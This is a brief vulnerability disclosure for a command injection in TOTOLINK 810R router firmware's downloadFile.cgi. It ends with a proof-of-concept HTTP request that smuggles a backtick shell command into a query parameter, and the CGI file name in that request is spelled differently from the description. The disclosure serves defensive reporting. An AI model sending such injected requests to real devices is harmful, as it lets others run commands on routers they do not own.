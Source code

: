 # command injection

## 810R_Firmware

version: V5.9c.4050_B20190424

## Description:

There is a command injection in downloadFile.cgi. Still exist in V5.9c.4050_B20190424.

## Source:

you may download it from : http://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=2&ids=36

## Analyse:
![](https://s3.bmp.ovh/imgs/2022/08/15/c9bc5cee24835fdb.png)

don't check the input of QUERY_STRING and call system

![](https://s3.bmp.ovh/imgs/2022/08/15/4adf3d68294d8f74.png)


# POC
```
GET /cgi-bin/downloadFlile.cgi?payload=`dw>../1.txt` HTTP/1.1 
Host: 192.168.1.106
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8 accept-language: zh-CN,zh;q=0.9
Accept-Encoding: gzip, deflate 
Connection: keep-alive 
Upgrade-Insecure-Requests: 1 
Cache-Control: max-age=0
```
